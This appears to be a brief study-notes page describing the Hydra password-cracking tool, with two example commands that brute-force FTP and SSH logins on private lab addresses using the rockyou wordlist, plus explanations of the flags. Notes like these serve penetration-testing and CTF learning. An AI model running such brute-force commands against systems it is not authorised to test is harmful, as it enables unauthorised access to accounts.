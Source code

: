 = a fast online password cracking tool for [[NetworkServices]] like telnet, rdp, ssh, ftp, http, smb ...

Example:

```
hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp

hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.38.193 ssh
```

-   -t 4 = parallel Connections to target
-   -l \[user] = useraccount name
-   -P \[ordnerpfad PWListe] = path to Directory with passwordlist
-   -vV = verbose mode (shows login+password for each try)
-   ftp = protocol